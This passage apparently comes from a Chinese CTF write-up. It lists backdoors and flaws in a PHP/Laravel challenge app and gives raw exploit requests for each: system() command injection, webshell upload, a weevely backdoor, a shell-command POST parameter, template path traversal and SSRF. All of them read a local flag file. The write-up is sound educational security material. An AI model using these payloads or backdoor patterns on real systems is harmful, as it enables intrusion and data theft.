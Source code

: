 ### 2. 404 

<pre class="lang:default decode:true">POST http://localhost:21000/asdadasdaasd HTTP/1.1
Host: localhost:21000
Content-Length: 27
Content-Type: application/x-www-form-urlencoded

notfound=system("cat%20%2Fhome%2Fweb%2Fflag%2Fflag")</pre>

在比赛现场由于部署时使用了php7, preg_match的r选项已无法使用，因此该漏洞失效。

### 3. upload_image 

<pre class="lang:default decode:true">POST /upload_image</pre>

直接上传一句话木马，随后通过一句话木马利用。

### 4. weevely in autoload_real.php 

<pre class="lang:default decode:true">$ weevely http://ip:port/any xman1234</pre>

随后通过weevely直接读flag

### 5. Post checker=shellcmd in autoload.php 

<pre class="lang:default decode:true">POST http://localhost:21000/ HTTP/1.1
Host: localhost:21000
Content-Length: 41
Content-Type: application/x-www-form-urlencoded

checker=cat%20%2Fhome%2Fweb%2Fflag%2Fflag</pre>

### 6. template any file require 

<span spellcheck="false"><code>http://localhost:21000/posts/create</code>在发布文章时修改提交的模板值

<pre class="lang:default decode:true">html
&lt;div class="form-group"&gt;
    &lt;select class="form-control" name="template"&gt;
    &lt;option value="/../../../../../../home/web/flag/flag"&gt;Template 1&lt;/option&gt;
    &lt;option value="2.tpl"&gt;Template 2&lt;/option&gt;
    &lt;option value="3.tpl"&gt;Template 3&lt;/option&gt;&lt;/select&gt;
&lt;/div&gt;</pre>

随后新发布的文章中就会包含flag的值

### 7. resolve_file SSRF 

<pre class="lang:default decode:true">POST http://localhost:21000/resolve_image HTTP/1.1
Host: localhost:21000
Content-Length: 112
Content-Type: application/x-www-form-urlencoded
Cookie: laravel_session=eyJpdiI6ImN0alBVaUVmSWhDKzlpVXhybGVPZXc9PSIsInZhbHVlIjoianU3Ym9CcXFOeVN4bW5nS0k2MWxcL25Ed0FBN2s5VFg5SFlxRGl5eW12b1J4bkpSTFl3QzR3d0l4bUtvTzhMNklEQndEdlRDMVF0UmtSTllnVlNOaUR3PT0iLCJtYWMiOiJjNWNiNmMyODNjYmU1MGUyYTE0OWY0ZTMxMGQ4ZTRmM2Q2MDRhMDBjOWJmNTU4MGJjMDY1NGRkNzdjNDJhYjYwIn0%3D
